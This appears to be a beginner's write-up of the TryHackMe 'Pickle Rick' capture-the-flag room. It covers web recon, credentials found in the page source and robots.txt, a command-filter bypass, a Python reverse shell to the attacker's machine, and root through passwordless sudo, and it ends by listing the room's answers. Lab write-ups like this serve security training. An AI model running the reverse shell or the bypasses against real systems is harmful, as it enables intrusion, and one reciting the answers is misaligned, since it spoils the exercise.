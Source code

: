 ## TryHackme: Pickle Rick Writeup
Pickle Rick CTF is a beginner friendly room on TryHackme, Theme based on Rick and Morty requires you to exploit a webserver to find 3 ingredients that will help Rick make his potion to transform himself back into a human from a pickle.

```bash
$ sudo nmap -sS -sC -sV MACHINE_IP
```
![alt text](/images/nmap.png)

![alt text](/images/source%20page.png)

we found a username on source page: ```R1ckRul3s```

## Gobuster scan

```bash
$ gobuster dir -u http://MACHINE_IP -w /wordlist-dir -x php,txt
```

![alt text](/images/gobuster.png)

## robots.txt

![alt text](/images/robots.png)

string: ```Wubbalubbadubdub```

## login to portal

![alt text](/images/login%20page.png)

```sql
creds found
username: R1ckRul3s
password: Wubbalubbadubdub
```

![alt text](/images/command.png)

### we have restrictions on commands we run 
We can bypass disabled commands, use ```c\at``` or ```less``` instead of ```cat``` 

```bash
c\at Sup3rS3cretPickl3Ingred.txt
mr. meeseek hair
```

![alt text](images/command%20bypassed.png)

## revshell
setup a netcat listener and put python3 Reverse shell command in panel

```bash
$ nc -nvlp 4242
```

```python3
python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("YOUR_MACHINE_IP",4242));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);import pty; pty.spawn("/bin/bash")'
```

Second Ingredient found in /home/rick Directory 

```bash
$ cat second\ ingredients
1 jerry tear
```

## Privilege escalation
user www-data can run (ALL) commands as root without password

![alt text](images/sudo.png)

```bash
www-data@ip-10-10-195-52:/home/ubuntu$ sudo /bin/bash -p
root@ip-10-10-195-52:/home/ubuntu# whoami
root
```
![alt text](/images/root.png)

we are root now 

```bash
root@ip-10-10-203-150:~# cat 3rd.txt
3rd ingredients: fleeb juice
```

## Ingredients
First Ingredient: ```mr. meeseek hair```

Second Ingredient: ```1 jerry tear```

Third Ingredient: ```fleeb juice```